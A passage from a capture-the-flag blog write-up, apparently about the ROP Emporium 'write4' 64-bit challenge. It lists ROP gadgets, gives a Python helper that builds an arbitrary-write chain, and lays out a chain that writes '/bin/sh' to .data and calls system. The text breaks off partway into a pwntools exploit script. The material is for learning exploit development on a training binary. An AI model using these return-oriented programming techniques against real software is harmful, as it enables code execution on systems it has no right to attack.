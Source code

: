 ```
0x00000000004006a0: mov edi, 0x601060; jmp rax;
0x00000000004007fd: mov edi, eax; call 0x620; nop; leave; ret;
0x0000000000400820: mov qword ptr [r14], r15; ret;
0x00000000004005a4: mov rax, qword ptr [rip + 0x200a4d]; test rax, rax; je 0x5b5; call 0x640; add rsp, 8; ret;
0x000000000040073b: mov rbp, rsp; call rax;
0x0000000000400808: mov rbp, rsp; mov edi, 0x40090c; call 0x5e0; nop; pop rbp; ret;
0x00000000004007fc: mov rdi, rax; call 0x620; nop; leave; ret;
0x000000000040088c: pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040088e: pop r13; pop r14; pop r15; ret;
0x0000000000400890: pop r14; pop r15; ret;
0x0000000000400892: pop r15; ret;
0x000000000040069f: pop rbp; mov edi, 0x601060; jmp rax;
0x000000000040088b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret;
0x000000000040088f: pop rbp; pop r14; pop r15; ret;
0x00000000004006b0: pop rbp; ret;
0x0000000000400893: pop rdi; ret;
0x0000000000400891: pop rsi; pop r15; ret;
0x000000000040088d: pop rsp; pop r13; pop r14; pop r15; ret;
```
The gadget at `0x00400820` looks simple enough, `mov qword ptr [r14], r15; ret;` a simple `mov to_ptr, from_ptr` then return. There is also a gadget at `0x00400890` which pops both registers from the stack! This will in turn give us control over the _to_ and _from_ registers.

In the spirit of good exploit development lets put hat into a function which takes a piece of data, and an address to write it to!

```python
def arbitrary_write(address, data):
    #0x400890: pop r14; pop r15; ret;
    #0x400820: mov qword ptr [r14], r15; ret;
    # pop reg
    # mov to_reg, from_reg
    # address > data > pop r14; pop r15; mov
    pop_regs = 0x400890
    mov_regs = 0x400820
    rop = p64(pop_regs)
    rop += p64(address)
    rop += data
    rop += p64(mov_regs)
    return rop
```
## Putting it all together

Now i wont bore you with creating a template or finding the overflow offset, as that can be found in the earlier blog posts. Constructing the ROP Chain will look something like the following:
```
[junk] + arbitrary_write(.data, "/bin/sh\x00") + [pop_rdi] + [.data] + [system]
```
### Final exploit
```python
#Author: Christoffer.Claesson@Securitybits.io
#Blog: https://blog.securitybits.io/2019/12/03/ropemporium-3-write4-64-bit/

#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('write4')

host = args.HOST or '127.0.0.1'
port = int(args.PORT or 31337)

```